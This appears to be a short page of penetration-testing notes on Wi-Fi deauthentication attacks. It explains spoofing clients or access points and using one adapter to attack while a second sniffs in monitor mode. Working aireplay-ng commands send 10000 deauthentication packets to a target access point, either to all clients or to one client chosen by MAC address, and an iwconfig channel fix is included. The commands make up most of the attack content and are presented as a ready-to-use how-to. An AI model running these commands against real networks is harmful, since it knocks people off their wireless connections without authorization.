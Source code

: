 # Deauthentication Attack

**Which deauthenticate users or specific user on AP**

![image.png](<../../.gitbook/assets/image (28).png>)

**spoof client and send message to AP `Deauthentication`**

***

<figure><img src="../../.gitbook/assets/image 1 (15).png" alt=""><figcaption></figcaption></figure>

**Spoof AP and send message to clients**

***

**We use Two Alpha cart →> one for attack and other for monitor mode(sniffing packet)**

<figure><img src="../../.gitbook/assets/image 2 (11).png" alt=""><figcaption></figcaption></figure>

***

## aireplay-ng Tool

### Deauthenticate All users

```bash
aireplay-ng --deauth 10000 -a Target_Ap_Mac_Address wlan1mon

# 1000 -> refer to nummber of packet
```

<figure><img src="../../.gitbook/assets/image 3 (8).png" alt=""><figcaption></figcaption></figure>

> **To solve this error u must change channel of your adapter manual**

```bash
iwconfig wlan1mon channel 1
```

### **Deauthenticate Specific user**

```bash
aireplay-ng --deauth 10000 -a Target_Ap_Mac_Address -c MAc_specific_Suser wlan1mon

# we found this mac usinf cart 0 which work on sniffing packet
```

<figure><img src="../../.gitbook/assets/image 4 (6).png" alt=""><figcaption></figcaption></figure>
